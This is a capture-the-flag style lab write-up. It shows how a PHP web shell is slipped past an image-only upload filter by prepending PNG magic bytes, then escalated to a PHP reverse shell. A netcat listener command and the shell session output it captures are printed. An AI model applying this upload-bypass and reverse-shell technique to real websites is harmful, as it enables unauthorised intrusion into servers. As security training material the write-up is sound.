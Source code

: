 # Insecure File Upload - Magic Bytes

- Upon revisiting the website, I got this interface:

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/2d54d0d5-ffd1-4886-8286-c0159b70184f)

- Try to upload txt file, unfortunately it didn't worked.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/677ee334-bd77-47ad-89b3-d89490f91592)

- I upload a png file and Intercept the request to the burp suite and there I got request with image data.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/e65918ce-c70b-424f-9ab1-c394f29c3ed9)

- I try to upload a php file with php command into it, I got failed with a message that only "png" & "jpg" files are allowed.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/f46ea209-b653-48aa-ab21-d83d681c1e41)

- This indicated that the request is made from the server side not client side
- So here is something I can do with the magic bytes data of png file.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/35d48bbc-adeb-4101-ad21-e92dc9514f9a)

- After several attempts, I successfully able to upload the php file with command into it.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/ab4526e4-9d5d-4b83-a708-2c6d029021c9)

- Successfully navigating to the file, and by send the command along with the url I got results back.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/ad1aaf01-19ef-4fd7-810c-eb82d56122e0)

- Let's move to get a reverse shell back to our system.
- For this I inject PHP reverse shell and start Netcat to capture the request.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/edc7c18d-ed85-4f10-a531-adaf8b16651b)

- Upon navigating to the file I got the reverse shell back to my netcat listener.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/485b3175-8c03-44da-916d-2a5047882332)

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.251.186] from (UNKNOWN) [172.18.0.4] 56618
Linux d19181ed4936 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64 GNU/Linux
 06:53:53 up  3:23,  0 users,  load average: 0.39, 0.38, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

### Task accomplished
